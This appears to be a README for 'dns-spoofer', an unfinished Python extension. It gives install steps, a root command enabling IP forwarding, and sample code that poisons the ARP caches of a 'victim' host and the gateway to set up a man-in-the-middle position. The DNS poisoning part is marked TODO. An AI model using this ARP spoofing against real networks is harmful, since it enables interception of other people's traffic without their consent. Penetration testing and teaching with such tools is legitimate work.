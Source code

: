 Work In Progress

### Dependencies
* libnet-dev


### Install
I recommend using a virtualenv for this.
```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer
python setup.py build
python setup.py install  # or add dnsspoofer.so to the PYTHONPATH
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
TODO


#### Notes
* dns-spoofer is releasing the GIL while doing it's magic. So you shouldn't have any problems with using multiple threads to
periodically spoof multiple hosts.
